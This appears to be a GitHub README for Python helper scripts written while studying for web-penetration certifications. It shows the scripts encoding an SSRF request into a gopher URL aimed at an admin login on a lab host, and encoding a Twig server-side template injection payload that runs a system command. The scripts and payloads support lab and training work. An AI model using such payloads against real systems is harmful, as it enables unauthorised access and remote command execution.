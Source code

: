 # CBBH-CWES-Artifact
Some python script I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request and the host (u1) inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopherus-manual.py
gopher://dataserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dataserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//dataserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520dataserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```

You may need to manually swap the request inside the `gopher-manual-1.1.py` -> This is upgrade version.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual-1.1.py
gopher://someserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20someserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//someserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520someserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```


### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
